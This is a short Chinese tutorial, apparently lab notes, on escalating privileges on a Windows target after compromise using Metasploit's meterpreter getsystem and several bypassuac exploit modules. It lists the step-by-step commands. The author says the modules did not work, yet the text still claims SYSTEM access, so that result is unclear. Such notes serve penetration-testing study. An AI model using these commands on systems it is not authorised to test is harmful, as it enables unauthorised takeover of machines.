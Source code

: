 # 一、环境准备

1 MSF-Metasploit Framework

2 一台windiows靶机

# 二、实战

1 提权方法（Windows）查看当前获得用户的权限   meterpreter 中输入： getuid

![1644493116225](后渗透之提权.assets/1644493116225.png)

方法一、 meterpreter中输入：getsystem

![1644493125642](后渗透之提权.assets/1644493125642.png)

方法二、使用msf模块提权

要想提权必须是已经拿到meterpreter  然后将当前meterpreter 后台 meterprerer中输入  background

1、 查看可用模块  MSF终端中输入   search bypassuac   查看提权模块

2、 选择一个适合当前系统的提权模块  我这边使用的是win10系统

那我们使用：use  exploit/windows/local/bypassuac_windows_store_reg  尝试提权

这个模块不行就换一个 use exploit/windows/local/bypassuac_sluihijack

或者  use exploit/windows/local/bypassuac_dotnet_profiler

比如使用这个。但是最后使用这三个模块没有复现成功。

![image-20240919132045694](26.后渗透之提权（Windows）/image-20240919132045694.png)	

3 配置模块使用参数   终端内输入： show options

4 可以看到需要配置 session  终端内输入：set session  {需要提权的session id}

查看session后，设置对应的sessionid

![image-20240919132123258](26.后渗透之提权（Windows）/image-20240919132123258.png)	

5 执行提权  终端内输入：run

6 获取到meterpreter后 我们在终端内 输入getuid 看实际还没有提权成功  需要在还终端内在输入 getsystem 获取权限 

7 获取权限完成后 输入getuid 即可看到  已经获取到SYSTEM 最高权限了

![1644493163472](后渗透之提权.assets/1644493163472.png)

看到这个证明已经将权限提升成功

